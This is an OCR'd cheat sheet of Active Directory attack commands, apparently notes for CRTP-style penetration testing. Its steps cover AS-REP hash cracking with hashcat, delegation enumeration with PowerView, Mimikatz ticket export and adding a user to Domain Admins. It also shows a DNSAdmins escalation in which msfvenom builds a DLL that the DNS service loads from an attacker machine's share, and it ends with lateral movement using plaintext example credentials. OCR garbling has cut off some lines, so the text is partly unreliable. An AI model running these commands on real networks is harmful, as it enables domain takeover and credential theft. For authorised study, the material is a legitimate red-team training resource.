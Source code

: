 ```powershell
# Cracking the AS-REP Hash
# We need into insert 23 after $krb5asrep$
hashcat -m 18200 '$krb5asrep$23$blackwidow@redwolf.local:0AC0F9425FEA56FBDC65EDC84DA88275$1BBC8576E21155EA6DBF234B22860EB2887A283E7
#
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
# Enumerate users and computers with constrained delegation enabled
# PowerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
# Using ActiveDirectory Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
Privilege Escalation
# Using PowerUp script
# Get services with unquoted paths and a space in thier name
Get-UnquotedService -Verbose
# Get services where the current user can write to its binary path or change arguments to the binary
Get-ModifiableServiceFile -Verbose
# Get the services whose configureation current user can modify
Get-ModifiableService -Verbose
# Unconstrained Delegation
# Discover domain computers which have unconstrained delegation enable using powerview:
Get-NetComputer -UnConstrained
# Using ActiveDirectory module:
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
# Compromise the server where Unconstrained Delegation is enable.
# Run following command on it to check if any DA token is available:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
Add User to Domain Admins Group
CRTP 13
# install RAST-AD-POWERSHELL
Install-WindowsFeature RSAT-AD-PowerShell
# add user to domain admins group
Add-ADGroupMember -Identity "Domain Admins" -Members dcorp\student111
Priv Esc - DNSAdmin
Info
1. It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM)
2. In case the DC also serves as DNS, this will provide us escalation to DA
3. Need privileges to restart the DNS service
# Enumerate the members of the DNSAdmins group
Get-NetGroupMember -GroupName "DNSAdmins"
# Using ActiveDirectory module
Get-ADGroupMember -Identity DNSAdmins
# One we know the memebers of the DNSAdmins group, we need to compromise a member.
# We already have hash of srvadmin because of derivative local admin.
# From the privileges of DNSAdmins group memeber, configure DLL
msfvenom -p windows/x64/exec cmd='net group "Domain Admins" <username> /domain/add' -f dll -o <filename>
# create shared folder from the windows attackint machine, where the DLL located.
# Use the below command (needs RSAT DNS):
dnscmd <dcname> /config /serverlevelplugindll \\<ip address attacker machine\sharedfolder>\DLLname
# Restart the DNS
sc \\DC-1 stop dns
sc \\DC-1 start dns
Lateral Movement - PowerShell Remoting
# Enable PS-Remoting
Powershell -ep bypass Enable-PSRemoting -force
# Start PSsession
Enter-PSSession -ComputerName DC-1.sec.local -Credential shabi:Aa123456
# If we have local admin privilege on another machins run the command:
```